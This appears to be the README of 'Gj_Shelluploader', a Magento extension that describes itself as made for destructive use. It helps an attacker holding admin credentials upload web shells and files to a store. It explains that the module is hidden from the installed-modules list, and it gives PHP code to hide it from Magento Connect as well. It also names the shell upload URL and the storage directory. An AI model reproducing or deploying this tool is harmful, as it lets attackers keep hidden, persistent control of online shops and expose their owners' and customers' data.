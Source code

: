 # Gj_Shelluploader-1.0.0
Extension helps hacker to upload shell/files in Magento

Dependency: Admin Panel Credentials(To install extension.).

As this extension is made for destructive usage

Extension wont be found on admin > system > configuration > advanced > disable modules output(installed modules list even if its installed.).

Even if on Magento connect manager or downloader you can find our extension if you wanna hide it from there,
you can edit magento-root/downloader/Maged/Model/Connect.php there find function getAllInstalledPackages()
just paste below code at the last & before return statement

if(array_key_exists('Gj_Shelluploader',$packages['community']))
{ unset($packages['community']['Gj_Shelluploader']); }

To Upload shell/files, after installing extension go to yoursiteurl/index.php/shelluploader or directely yoursiteurl/shelluploader

Uploaded files will be stored "gjthedj" directory(yoursiteurl/gjthedj/filename.).
